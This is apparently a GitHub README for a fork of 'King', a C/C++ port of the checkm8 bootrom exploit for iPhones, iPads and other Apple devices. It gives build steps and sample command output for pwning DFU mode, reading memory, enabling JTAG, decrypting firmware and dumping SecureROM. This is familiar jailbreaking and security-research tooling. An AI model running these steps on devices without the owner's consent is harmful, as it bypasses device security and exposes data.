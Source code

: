 Fork from a1exdandy..

modify to compile im MAC OS catalina 10.15.5

install libusb:

 brew install libusb - current version for me is 1.0.23 - may need to edit CMakeList.txt
 
build:

  cd King
 
  mkdir build
 
  cd build
 
  cmake ..
  
  make

Works on my iPhone 6s n71ap :)

Original README below
===========================================================
# King

Port of [@axi0mX's](https://twitter.com/axi0mx) checkm8 exploit ([ipwndfu](https://github.com/axi0mX/ipwndfu)) to C/C++

**Supported devices:**

* `T7000`
  * `Apple TV (4th generation)`
  * `HomePod`
  * `iPad mini 4`
  * `iPhone 6`
  * `iPhone 6 Plus`
  * `iPod touch (6th generation)`
* `S8000` and `S8003`
  * `iPad (5th generation)`
  * `iPhone 6s`
  * `iPhone 6s Plus`
  * `iPhone SE`
* `T8010`
  * `iPad (6th generation)`
  * `iPhone 7`
  * `iPhone 7 Plus`

**Works on:**

 * `Windows` (see notes below)
 * `Linux` (tested on `Ubuntu 16.04` and `Ubuntu 19.10`)
 * `MacOS` (cmake-building not working now, do it yourself)


## Windows notes

Requimpents:

* `libusbK` driver (can be installed with [zadig](https://zadig.akeo.ie/))
* `libusb` with fixed `MAX_PATH_LENGTH` ([see this PR](https://github.com/libusb/libusb/pull/699))

## Compilation

```bash
cd King
mkdir build
cd build
cmake ..
make
cp -R ../bin .
```

## Run checkm8 exploit
```
sudo ./king checkm8
[*] Shellcode generated ...
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 1, heap grooming ...
[*] stage 2, usb setup, send 0x800 of 'A', sends no data
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 3, exploit
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[!] Device is now in pwned DFU Mode! :D
```

## Read memory
```
sudo ./king read64 0x100000280
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 36322D746F6F4269
```

```
sudo ./king read32 0x100000280
[*] Device Serial Number: CPID:8010 CPRV:11 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 6F6F4269
```

## Demote device (Enable JTAG)
```
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] DemotionReg: 287
[*] Setting Value...
[*] New DemotionReg: 286
[!] Succeeded to enable the JTAG!
```

## Decrypt and unpack IM4P firmware image
```
sudo ./king decryptIMG iBoot.d10.RELEASE.im4p   
decryptIMG4
IM4P: ---------
type: ibot
desc: iBoot-5540.0.129
size: 0x00072340

KBAG
num: 1
3c8b957e2bca7ce6e56b41f86490f535
9fde3e44de15dac204f895378d0e7eb03ecc2b67bb1958bb2c70508ea63875f5
num: 2
af60c224bd43c632a17495816dca1ae6
bada1c3314217e7dd6b903d4c3caf3a7aa0f214ec40f13a1085d04bb2d05dc25

[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8][*] Decrypted Keybag: 
DF97....15CE
[*] Decrypted Key: 
369......5CE
[*] Decrypted IV: 
DF........E7
[!] File succesfully decrypted and written to: iBoot.d10.RELEASE.im4p_decrypted
```

## Hexdump
```
C:\src\King\build>Release\king.exe hexdump 0x100000200 0x90
[*] Device Serial Number: CPID:7000 ... SRTG:[iBoot-1992.0.0.1.19] PWND:[checkm8]
0000000100000200: 53 65 63 75 72 65 52 4f 4d 20 66 6f 72 20 74 37  SecureROM for t7
0000000100000210: 30 30 30 73 69 2c 20 43 6f 70 79 72 69 67 68 74  000si, Copyright
0000000100000220: 20 32 30 31 33 2c 20 41 70 70 6c 65 20 49 6e 63   2013, Apple Inc
0000000100000230: 2e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000240: 52 45 4c 45 41 53 45 00 00 00 00 00 00 00 00 00  RELEASE.........
0000000100000250: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000260: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000270: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000280: 69 42 6f 6f 74 2d 31 39 39 32 2e 30 2e 30 2e 31  iBoot-1992.0.0.1
```

## SecureROM dumping
```
C:\src\King\build>Release\king.exe dump-rom
[*] Device Serial Number: CPID:7000 ... SRTG:[iBoot-1992.0.0.1.19] PWND:[checkm8]
Saved: SecureROM-t7000si-RELEASE-1992.0.0.1.19.dump
```
